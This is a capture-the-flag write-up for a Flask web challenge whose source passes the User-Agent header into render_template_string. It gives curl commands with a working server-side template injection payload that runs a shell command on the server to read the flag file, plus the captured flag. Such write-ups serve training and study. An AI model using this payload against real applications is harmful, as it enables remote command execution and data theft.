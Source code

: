 -----------

### CTF-:Platypwnies

-----------

![image](https://github.com/user-attachments/assets/e0583134-4dc6-4580-b4fa-7b524d34ab88)

-----------

### CHALLENGES-:

- Web
 - OS Detection

------------

### OS DETECTION

------------

![image](https://github.com/user-attachments/assets/849a3df5-ba5b-44a8-93ff-a1263f4b9621)

------------

-  I discovered the source code in route `/source`.

```bash
❯ curl http://10.71.6.5:5000/source
<pre>from flask import Flask, request, render_template, render_template_string
from ua_parser import user_agent_parser

app = Flask(__name__)

@app.route(&#34;/&#34;)
def home():
    user_agent = request.headers.get(&#39;User-Agent&#39;)
    try:
        parsed_string = user_agent_parser.Parse(user_agent)
        family = parsed_string[&#39;os&#39;][&#39;family&#39;]
        user_agent_hint = render_template_string(user_agent)
        return render_template(&#39;index.html&#39;, os=family, user_agent=user_agent_hint)
    except Exception as e:
        return render_template(&#39;failure.html&#39;, error=str(e))
    
@app.route(&#34;/source&#34;)
def source():
    code = open(__file__).read()
    return render_template_string(&#34;&lt;pre&gt;{{ code }}&lt;/pre&gt;&#34;, code=code)
    

if __name__ == &#34;__main__&#34;:
    # No debug, that would be insecure!
    #app.run(debug=True)
    app.run()
</pre>%
```

- The sink is stated below.

```python3
user_agent = request.headers.get(&#39;User-Agent&#39;)
    try:
        parsed_string = user_agent_parser.Parse(user_agent)
        family = parsed_string[&#39;os&#39;][&#39;family&#39;]
        user_agent_hint = render_template_string(user_agent)
        return render_template(&#39;index.html&#39;, os=family, user_agent=user_agent_hint)
```

- The code is vulnerable to  SSTI because the `User-Agent` header is passed to function `render_template_string()`.

```bash
❯ curl http://10.71.6.5:5000/ -H "User-Agent: {{7*7}}" | grep "49"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1672  100  1672    0     0   1751      0 --:--:-- --:--:-- --:--:--  1750
        <pre>49</pre>
```

- Flag-:`PP{h4ck3r-OS-d3t3ct3d::7pe6PXP-ZkPe}`

```bash
❯ curl http://10.71.6.5:5000/ -H "User-Agent: {{config.__init__.__globals__['__builtins__']['__import__']('os').popen('cat flag/flag.txt').read()}}" | grep "PP"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1706  100  1706    0     0   5082      0 --:--:-- --:--:-- --:--:--  5077
        <pre>PP{h4ck3r-OS-d3t3ct3d::7pe6PXP-ZkPe}</pre>
```


